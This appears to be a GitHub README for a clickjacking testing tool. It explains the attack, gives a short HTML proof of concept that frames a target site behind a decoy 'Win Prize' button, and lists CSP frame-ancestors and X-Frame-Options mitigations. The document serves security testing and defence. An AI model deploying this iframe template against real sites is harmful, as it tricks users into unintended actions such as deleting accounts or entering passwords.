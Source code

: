 # ClickjackingTester

Clickjacking is a portmanteau of two words ‘click’ and ‘hijacking’. It refers to hijacking user’s click for malicious intent. In it, an attacker embeds the vulnerable site in an transparent iframe in attacker’s own website and overlays it with objects such as button using CSS skills. This tricks users to perform unintended actions on vulnerable website, thinking they are doing those on attacker’s website. Clickjacking, also known as a "UI redress attack".

## DESCRIPTION

Users are tricked into performing all sorts of unintended actions are such as typing in the password, clicking on ‘Delete my account’ button, liking a post, deleting a post, commenting on a blog. In other words all the actions that a normal user can do on a legitimate website can be done using clickjacking.

## PoC

1. Copy and paste the below HTML code.
<!DOCTYPE html>
<html>
<head>
<title>Clickjacking PoC</title>
</head>
<body>
<input type=button value="Click here to Win Prize" style="z-index:-1;left:1200px;position:relative;top:800px;"/>
<iframe src="http://test.com/" width=100% height=100% style=”opacity: 0.5;”></iframe>
</body>
</html>
2. Edite the src attribute of iframe tag. Change its url to your target site and save the file.
3. Launch the file in browser.
4. Observe that the website is getting embeded in an Iframe.

## Mitigation

In order to fix the issue, we must know the underlying reason that is causing the issue. Clickjacking is caused due to allowing permission to a third party website to embed the vulnerabe site using Iframe. Disallowing this can be done by setting HTTP headers that direct browser to not allow the target website to be iframed. This can be done by configuring server on the following two response headers: X-Frame-Options Content-Security-Policy. Implement anyone of the below basaed on your business requirements:
1. Content-Security-Policy: frame-ancestors ‘none’ : Set this if you want to disallow every domain from embedding your site in an Iframe.
2. Content-Security-Policy: frame-ancestors ‘self’ : Set this if you want to disallow every domain from embedding your site in an Iframe and allow only your domain (i.e. the site itself) to embed itself in Iframe.
3. Content-Security-Policy: frame-ancestors uri : Set this if you want to allow a specifc uri to embed your site in an Iframe and disallow all the others.
